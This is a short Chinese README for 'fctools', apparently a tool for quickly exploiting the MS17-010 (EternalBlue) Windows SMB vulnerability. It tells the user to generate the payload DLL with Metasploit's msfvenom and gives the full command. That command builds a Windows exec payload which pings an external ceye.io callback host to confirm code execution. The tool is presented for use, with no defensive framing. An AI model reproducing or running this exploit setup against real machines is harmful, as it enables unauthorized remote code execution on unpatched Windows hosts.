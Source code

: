 ## fctools
一款MS17-010漏洞快速利用软件
## 使用说明
使用msf生成dll，修改名称为x64.dll或者x86.dll
## 生成方法
```
msfvenom -p windows/x64/exec CMD="ping vxqxor.ceye.io" EXITFUNC=process -f dll > /Users/Nibeshe/Desktop/x64.dll
```
